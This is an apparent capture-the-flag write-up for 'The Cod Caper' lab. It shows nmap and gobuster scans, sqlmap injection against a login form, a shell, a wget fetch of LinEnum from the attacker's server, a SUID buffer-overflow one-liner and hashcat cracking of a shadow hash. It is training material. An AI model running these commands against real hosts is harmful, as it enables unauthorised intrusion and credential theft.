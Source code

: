 # Room/The-Cod-Caper

# Enumeration

## nmap Scan

- As always, this phase is so important to know more about our target! getting to know the open ports and which services running on those ports!

```sh
nmap -sV -sC -p- -T4 -vv -oG nmap 10.10.131.81
```

```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDs2k31WKwi9eUwlvpMuWNMzFjChpDu4IcM3k6VLyq3IEnYuZl2lL/dMWVGCKPfnJ1yv2IZVk1KXha7nSIR4yxExRDx7Ybi7ryLUP/XTrLtBwdtJZB7k48EuS8okvYLk4ppG1MRvrVojNPprF4nh5S0EEOowqGoiHUnGWOzYSgvaLAgvr7ivZxSsFCLqvdmieErVrczCBOqDOcPH9ZD/q6WalyHMccZWVL3Gk5NmHPaYDd9ozVHCMHLq7brYxKrUcoOtDhX7btNamf+PxdH5I9opt6aLCjTTLsBPO2v5qZYPm1Rod64nysurgnEKe+e4ZNbsCvTc1AaYKVC+oguSNmT
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAmpmAEGyFxyUqlKmlCnCeQW4KXOpnSG6SwmjD5tGSoYaz5Fh1SFMNP0/KNZUStQK9KJmz1vLeKI03nLjIR1sho=
|   256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFBIRpiANvrp1KboZ6vAeOeYL68yOjT0wbxgiavv10kC
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=12/17%OT=22%CT=1%CU=40173%PV=Y%DS=2%DC=I%G=Y%TM=61BCFE
OS:96%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=105%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=102%GCD=1%ISR=105%TI=Z%II=I%TS=8)OPS(O1=M505ST11NW6%O2=M505ST11NW6%
OS:O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST11NW6%O6=M505ST11)WIN(W1=68DF%W2
OS:=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M505NNS
OS:NW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

```

## Webserver Host Discovery

```sh
 gobuster dir -u 10.10.131.81 -w /usr/share/seclists/Discovery/Web-Content/big.txt  -o dirbuster.txt -x php,txt -q 
```
- q: for Quiet! Don't want to show any warnings!

```sh
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/administrator.php    (Status: 200) [Size: 409]
```

## Web Exploitalation - SQL INjection

It seems the Username input is vulnerable to SQL injection! Now the time to fire up ```sqlmap```

```sh
sqlmap http://10.10.131.81/administrator.php --forms POST --dump
```

The result

![****](/The-Cod-Caper/Screenshots/sqlmap.png)

## Command Execution

- After logging with the credentials we find! it looks like we can run shell commands!

![****](/The-Cod-Caper/Screenshots/sqlmap.png)

Time for some shell!

![****](/The-Cod-Caper/Screenshots/shell.png)

- Seaching for the last modifier files

```sh
find / -type f -name *pass* -exec ls -la {} \; 2>/dev/null
```

```sh
-rw-r--r-- 1 www-data www-data 12 Jan 15  2020 /var/hidden/pass
```

Is Interesting! let's read it!

## LinEnum

```sh
python3 -m http.server
```

```
wget 10.X.X.X:8000/LinEnum.sh
```

![****](/The-Cod-Caper/Screenshots/line.png)

Making the File Executable!!

```sh
chmod u+x LinENum.sh
```

Analysing the results, Interesting files! ```SUID```

```sh
[-] SUID files:
-r-sr-xr-x 1 root papa 7516 Jan 16  2020 /opt/secret/root
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 10624 May  8  2018 /usr/bin/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
```

## Buffer Overflow

Running ```cyclic -l 0x6161616c``` outputs ``44``, meaning we can overwrite EIP once we provide 44 characters of input.

```sh
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

## Bruteforcing the hash!

After getting the hash!

```sh
$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.
```

We're bruteforcing it using ```hashcat```

```sh
hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt
```

The result

![****](/The-Cod-Caper/Screenshots/hashcat.png)


Thank you!